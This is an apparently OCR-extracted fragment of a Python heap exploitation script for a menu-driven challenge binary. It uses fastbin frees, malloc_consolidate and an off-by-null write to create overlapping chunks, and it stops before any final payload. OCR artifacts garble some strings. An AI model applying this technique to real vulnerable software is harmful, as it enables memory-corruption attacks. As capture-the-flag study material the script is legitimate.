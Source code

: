 ```

    ctx.symbols = `{`'sym1':0xA60,'sym2':0xA96`}`

    def alloc(size,content):
        sla("Choice:",'1')
        sla(':',str(size))
        sa(':',content)

    def view(idx):
        ru('Choice:')
        sl('2')
        ru('index')
        sl(str(idx))

    def delete(idx):
        ru('Choice:')
        sl('3')
        ru('index')
        sl(str(idx))

    #prepare 0x140 size unsorted bin
    alloc(0x37,'x00'*0x37)#idx 0   0x40
    alloc(0x37,'x01'*0x37)#idx 1   0x80
    alloc(0x37,'x02'*0x37)#idx 2   0xc0
    alloc(0x37,'x03'*0x37)#idx 3   0x100  
    alloc(0x37,'x00'*0x37)#idx 4   0x140

    #prepare a chunk
    alloc(0x37,'x00'*0x37)#idx 5 

    #prepare chunks between idx 5 and top_chunk.
    alloc(0x37,'x06'*0x37)#idx 6
    alloc(0x37,'x07'*0x37)#idx 7
    alloc(0x37,'x06'*0x37)#idx 8
    alloc(0x37,'x07'*0x37)#idx 9
    alloc(0x37,'x06'*0x37)#idx 10

    #put chunk in fastbin 
    for i in range(5):
        delete(i)

    #trigger the malloc_consolidate() to merge the fastbin.
    sla('Choice:','1'*0x500)
    # now the fastbin chunks have been put into the unsorted bin , whose size is 0x140.And the idx5_presize = 0x140.    

    #we use off_by_null to shrink the unsorted bin size , to forbide the idx5_presize to be changed.
    alloc(0x28,'x00'*0x28)

    #malloc some chunk.
    alloc(0x37,'x01'*0x37) #idx 1 0x030
    alloc(0x17,'x02'*0x17) #idx 2 0x070
    alloc(0x37,'x03'*0x37) #idx 3 0x090
    alloc(0x37,'x00'*0x37) #idx 4 0x0d0
    alloc(0x17,'x00'*0x17) #idx 11 0x110

    #put the chunk in fastbin to make overlapped chunk.
    delete(5)
    delete(1)

    #trigger the malloc_consolidate() to merge the fastbin.And it will make overlapped chunk.[chunk2 / chunk3 / chunk4/ chunk7]
```